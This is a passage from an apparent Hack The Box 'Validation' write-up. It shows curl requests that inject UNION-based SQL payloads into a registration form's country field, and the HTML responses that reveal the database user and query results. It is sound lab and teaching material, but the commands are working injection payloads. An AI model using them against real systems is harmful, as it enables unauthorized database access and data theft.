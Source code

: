 ```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer5&country=Belgium' union select 1-- -" http://10.10.11.116
<SNIP>
```

Send the cookie as before and we get the following html:

```html
<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
        <div class="container p-5">
            <h1 class="text-white">Welcome pencer6</h1>
            <h3 class="text-white">Other Players In Belgium' union select 1-- -</h3>
            <li class='text-white'>pencer1</li>
            <li class='text-white'>pencer2</li>
            <li class='text-white'>1</li>
        </div>
    </section>
</div>
```

You can see the number 1 from our union query is displayed on the page. Now let's get the user:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer7&country=Belgium' union select user()-- -" http://10.10.11.116
<SNIP>
└─# curl -v --cookie "user=ce14af17be3a9bcdf95074902db7eb25" http://10.10.11.116/account.php
```

Checking the response we see a username:

```html
<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
        <div class="container p-5">
            <h1 class="text-white">Welcome pencer7</h1>
            <h3 class="text-white">Other Players In Belgium' union select user()-- -</h3>
            <li class='text-white'>pencer1</li>
            <li class='text-white'>pencer2</li>
            <li class='text-white'>uhc@localhost</li>
        </div>
    </section>
</div>
```

We could find the database name as well:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer9&country=Belgium' union select database();-- -" http://10.10.11.116 
<SNIP>                                                                                                                     
┌──(root💀kali)-[~/htb/validation]
└─# curl -v --cookie "user=40b5f87fa3a86450e76a1bd4fa298dd2" http://10.10.11.116/account.php
```
